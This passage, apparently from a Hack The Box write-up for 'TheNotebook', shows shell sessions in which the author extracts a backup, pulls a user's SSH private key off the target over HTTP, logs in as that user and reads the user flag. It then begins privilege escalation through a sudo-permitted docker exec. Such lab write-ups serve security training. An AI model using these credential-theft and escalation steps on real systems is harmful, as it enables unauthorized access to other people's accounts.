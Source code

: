   www-data@thenotebook:/var/backups$ ls -al
    -rw-r--r--  1 root root     4373 Feb 17 09:02 home.tar.gz

Extract it and download Noah's private key.

  www-data@thenotebook:/var/backups$ tar xf home.tar.gz -C /tmp/backup/

  www-data@thenotebook:/tmp/backup/home/noah/.ssh$ ls -al
    total 20
    drwx------ 2 www-data www-data 4096 Feb 17 08:59 .
    drwxr-xr-x 5 www-data www-data 4096 Feb 17 09:02 ..
    -rw-r--r-- 1 www-data www-data  398 Feb 17 08:59 authorized_keys
    -rw------- 1 www-data www-data 1679 Feb 17 08:59 id_rsa
    -rw-r--r-- 1 www-data www-data  398 Feb 17 08:59 id_rsa.pub

  www-data@thenotebook:/tmp/backup/home/noah/.ssh$ python3 -m http.server 4488
  [root:/git/htb/thenotebook]# wget 10.10.10.230:4488/id_rsa -O noah-id_rsa
  [root:/git/htb/thenotebook]# wget 10.10.10.230:4488/id_rsa.pub -O noah-id_rsa.pub
  [root:/git/htb/thenotebook]# chmod 600 noah-id_rsa
  [root:/git/htb/thenotebook]# ssh noah@thenotebook.htb -i noah-id_rsa
  noah@thenotebook:~$ id
    uid=1000(noah) gid=1000(noah) groups=1000(noah)
  noah@thenotebook:~$ cat user.txt
    9f6b2966f0a7780f90f9991264050094


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. As normal, start with 'sudo -l' to see if we can grab a easy root.

  noah@thenotebook:/dev/shm$ sudo -l
    Matching Defaults entries for noah on thenotebook:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User noah may run the following commands on thenotebook:
        (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*

Access the docker and see if we can either break out with a reverse shell (sys_module abuse) or if we find anything interesting.

  noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 bash
  root@0f4c2517af40:/opt/webapp# capsh --print
    Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
    Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
    Securebits: 00/0x0/1'b0
     secure-noroot: no (unlocked)
     secure-no-suid-fixup: no (unlocked)
     secure-keep-caps: no (unlocked)
    uid=0(root)
    gid=0(root)
    groups=
